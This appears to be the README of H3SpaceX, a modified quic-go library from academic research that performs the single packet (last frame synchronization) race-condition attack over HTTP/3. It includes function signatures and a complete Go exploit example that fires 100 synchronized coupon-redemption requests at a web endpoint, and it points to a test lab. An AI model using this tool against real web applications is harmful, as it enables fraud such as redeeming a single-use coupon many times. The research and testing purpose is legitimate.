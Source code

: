 # H3SpaceX
H3SpaceX library is manipulated version of [quic-go](https://github.com/quic-go/quic-go) to 
enable the Single Packet Attack (Last Frame Synchronization) in HTTP/3 (QUIC). 
This library was part of an academic research with title of **Exploiting Race Conditions in Web Applications with HTTP/3**.

## Library Usage (how to exploit last frame synchronization - also known as single packet attack on HTTP/3)
There are two methods for exploiting last frame synchronization:

- Function `SendRequestsWithLastFrameSynchronizationMethod`:
- This function is for requests `which have body`!
- Function parameters:
  - first param gets QUIC connection (type: quic.Connection)
  - second param gets an array of requests which need to be sent.
  - third param is for number of bytes which needs to be kept from end of the DATA frame. (at least & best 1)
  - fourth param is for number of milliseconds which library waits before sending last DATA frames
  - fifth param is for setting or unsetting Content-Length header. If false, the Content-Header will not be set, unless you set it directly in requests headers
- Function return:
  - a map of requests with value of their response
```go
func SendRequestsWithLastFrameSynchronizationMethod(quicConn quic.Connection,
	allRequests []*http.Request,
	lastByteNum int,
	sleepMillisecondsBeforeSendingLastByte int,
	setContentLength bool,
) map[*http.Request]*http.Response
```

- Function `SendGetNoBodyRequestsWithSinglePacketAttackMethod`:
- This function is for requests `which do *not* have body`!
- Function parameters:
    - first param gets QUIC connection (type: quic.Connection)g
    - second param gets an array of requests which need to be sent.
- Function return:
    - a map of requests with value of their response
```go
func SendGetNoBodyRequestsWithSinglePacketAttackMethod(quicConn quic.Connection,
	allRequests []*http.Request,
) map[*http.Request]*http.Response
```

### Installation

    go mod init PROJECT_NAME
    go get github.com/nxenon/h3spacex
    Write the code (exploit) then run following command (to include all dependencies in go.mod):
    go mod tidy


### Steps to Call Functions
- Import libraries
- Create TLS config 
- Create QUIC config
- create a list of requests (use http3.GetRequestObject function) and append them into requests list
- Establish QUIC connection
- Call http3.SendRequestsWithLastFrameSynchronizationMethod `or` http3.SendGetNoBodyRequestsWithSinglePacketAttackMethod methods based on your needs
```go
package main

import (
	"crypto/tls"
	"fmt"
	"strings"

	"context"
	"github.com/nxenon/h3spacex"
	"github.com/nxenon/h3spacex/http3"
	"io"
	"net/http"
	"os"
	"time"
)

func main() {
	tlsConf := &tls.Config{
		InsecureSkipVerify: true,
		NextProtos:         []string{http3.NextProtoH3},
	}

	quicConf := &quic.Config{
		MaxIdleTimeout:  10 * time.Second,
		KeepAlivePeriod: 10 * time.Millisecond,
	}

	var allRequests []*http.Request

	headers := map[string]string{
		"Cookie":       "x=y",
		"Content-Type": "application/json", // sample
	}

	reqBody := "{\"couponValue\":\"Coupon1\"}"

	for i := 0; i < 100; i++ { // 100 requests
		req, err2 := http3.GetRequestObject("https://DOMAIN.COM/api/cart/apply_coupon", "POST", headers, []byte(reqBody))
		if err2 != nil {
			fmt.Println("Error creating request: ", err2)
			continue
		}
		allRequests = append(allRequests, &req)
	}

	dialAddress := "IP:PORT" // destination IP address and UDP port
	ctx := context.Background()
	quicConn, err := quic.DialAddr(ctx, dialAddress, tlsConf, quicConf)
	if err != nil {
		fmt.Printf("Error Connecting to %s. Erorr: %s", dialAddress, err)
		os.Exit(1)
	}

	allResponses := http3.SendRequestsWithLastFrameSynchronizationMethod(quicConn, allRequests, 1, 150, true)

	for req, res := range allResponses {
		fmt.Printf("for request to %s\n", req.URL)
		fmt.Println("+---Headers---+")
		fmt.Printf("Status Code: %d\n", res.StatusCode)
		for key, value := range res.Header {
			fmt.Printf("%s: %s\n", key, value[0])
		}
		fmt.Println("+---Body---+")
		body, err3 := io.ReadAll(res.Body)
		if err3 != nil {
			fmt.Println("Error reading response body:", err3)
			continue
		}
		fmt.Println(string(body))

	}
}

```


## Exploits Sample
See [Exploit](./exploit) Directory. It contains:
- [Last Frame Synchronization for Requests with a Body](exploit/README.md#last-frame-synchronization-for-requests-with-a-body)
- [Last Frame Synchronization for Requests without Body (GET requests within a single packet)](exploit/README.md#last-frame-synchronization-for-requests-without-body-get-requests-within-a-single-packet)
- [Last Frame Synchronization for Requests without Body (GET requests with FAKE DATA Frames)](exploit/README.md#last-frame-synchronization-for-requests-without-body-get-requests-with-fake-data-frames)

## Lab (HTTP/2/3 Web Application)
For testing exploits see [Rc-H3-WebApp](https://github.com/nxenon/rc-h3-webapp/) repo.

## References
- [quic-go](https://github.com/quic-go/quic-go) as base library
